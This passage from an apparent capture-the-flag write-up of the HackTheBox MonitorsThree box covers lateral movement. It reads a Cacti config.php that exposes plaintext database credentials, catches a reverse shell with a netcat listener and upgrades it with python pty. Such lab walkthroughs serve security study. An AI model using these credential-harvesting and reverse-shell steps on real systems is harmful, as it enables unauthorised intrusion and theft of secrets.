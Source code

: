 ## Lateral Movement

The cacti/include directory contains a configuration file; `config.php`
```bash
www-data@monitorsthree:~/html/cacti/include$ cat config.php
cat config.php
<?php
/*
 +-------------------------------------------------------------------------+
 | Copyright (C) 2004-2023 The Cacti Group                                 |
 |                                                                         |
 | This program is free software; you can redistribute it and/or           |
 | modify it under the terms of the GNU General Public License             |
 | as published by the Free Software Foundation; either version 2          |
 | of the License, or (at your option) any later version.                  |
 |                                                                         |
 | This program is distributed in the hope that it will be useful,         |
 | but WITHOUT ANY WARRANTY; without even the implied warranty of          |
 | MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the           |
 | GNU General Public License for more details.                            |
 +-------------------------------------------------------------------------+
 | Cacti: The Complete RRDtool-based Graphing Solution                     |
 +-------------------------------------------------------------------------+
 | This code is designed, written, and maintained by the Cacti Group. See  |
 | about.php and/or the AUTHORS file for specific developer information.   |
 +-------------------------------------------------------------------------+
 | http://www.cacti.net/                                                   |
 +-------------------------------------------------------------------------+
*/

/**
 * Make sure these values reflect your actual database/host/user/password
 */

$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;

<...snip....>
```
```bash
[Jan 17, 2025 - 16:27:54 ] htb monitors3 ➜  rlwrap nc -lvnp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.86.40.
Ncat: Connection from 10.129.86.40:51522.
bash: cannot set terminal process group (1200): Inappropriate ioctl for device
bash: no job control in this shell
www-data@monitorsthree:~/html/cacti/resource$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ce$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@monitorsthree:~/html/cacti/resource$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```